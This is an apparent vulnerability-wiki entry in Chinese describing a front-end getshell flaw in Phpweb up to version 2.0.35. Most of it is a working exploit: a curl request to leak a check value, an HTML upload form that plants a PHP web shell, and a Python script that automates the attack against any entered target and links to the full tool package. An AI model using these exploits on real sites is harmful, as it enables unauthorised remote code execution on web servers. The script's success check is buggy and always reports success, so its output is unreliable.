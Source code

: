 Phpweb 前台getshell
===================

一、漏洞简介
------------

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php
/base/appborder.php

二、漏洞影响
------------

Phpweb\<=2.0.35

三、复现过程
------------

### 1.首先要获取加密前的Md5值，用于文件较检,通过Post提交数据来获取!

    curl "http://website/base/post.php" -H "act=appcode"

![](/Users/aresx/Documents/VulWiki/.resource/Phpweb前台getshell/media/rId25.png)

    ac34c64cdb405eff881efc5476a64761 ##这个就是初始值

### 2.获取加密后得md5值

然后将初始值md5加密(ac34c64cdb405eff881efc5476a64761 + "a")

得到加密后的MD5值!

    e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的md5值(终值)!

3.Getsehll exp:

    <html>
    <body>
    <form action="http://0-sec.org/base/appfile.php" method="post" enctype="multipart/form-data">
    <label for="file">Filename:</label>
    <input type="file" name="file" id="file" />
    <input type="text" name="t" value="a" />
    <input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
    <input type="text" name="act" value="upload" />
    <input type="text" name="r_size" value="14" />
    <br />
    <input type="submit" name="submit" value="getshell" />
    </form>
    </body>
    </html>

![](/Users/aresx/Documents/VulWiki/.resource/Phpweb前台getshell/media/rId27.png)

然后...Getshell!

![](/Users/aresx/Documents/VulWiki/.resource/Phpweb前台getshell/media/rId28.png)

当出现OK两个大字时,说明你成功了!!!

上传的shell路径是

[http://www.0-sec.org/effect/source/bg/shell名称.php](http://www.0-sec.org/effect/source/bg/shell名称.php)

![](/Users/aresx/Documents/VulWiki/.resource/Phpweb前台getshell/media/rId30.png)

### 工具编写

Python exp\[Python3\]:

    # -*- coding: UTF-8 -*- #
    import os
    import requests
    import hashlib

    bdlj = os.getcwd()
    headers = open(bdlj+"\headers.txt",'r')
    headerss = headers.read()
    print('\b')

    ur = input("请输入目标网址:")
    requrl =  ur + '/base/post.php'
    reqdata = {"act":"appcode"}
    r = requests.post(requrl,data=reqdata)
    cz=r.text[2:34]
    print ('初值:' + cz)

    cz=r.text[2:34]+"a"
    m = hashlib.md5()
    b = cz.encode(encoding='utf-8')
    m.update(b)
    zz = m.hexdigest()
    print ('终值:' + zz)

    infile = open(bdlj + "\datas.txt", "r",encoding='utf-8')
    outfile = open(bdlj + "\datah.txt", "w",encoding='utf-8')
    for line in infile:
          outfile.write(line.replace('156as1f56safasfasfa', zz))
    infile.close()
    outfile.close()
    datas = open(bdlj+"\datah.txt",'r')
    datass = datas.read()

    gs = requests.post(ur + '/base/appfile.php',data=datass,headers={'Content-Type':headerss})
    gs.encoding = 'utf-8'
    print (gs.text)

    if {gs.text == "OK"}:
        print ("Getshell成功! Shell:" + ur + "/effect/source/bg/mstir.php")
    else:
        print ("Getsehll失败!")

整包下载地址:<https://github.com/ianxtianxt/Phpweb-Getshell-py>

使用请下载整包,否则会缺少协议头和data数据!

使用教程:

![](/Users/aresx/Documents/VulWiki/.resource/Phpweb前台getshell/media/rId33.png)

参考链接
--------

> <https://m4tir.github.io/Phpweb-Reception-Getshell>
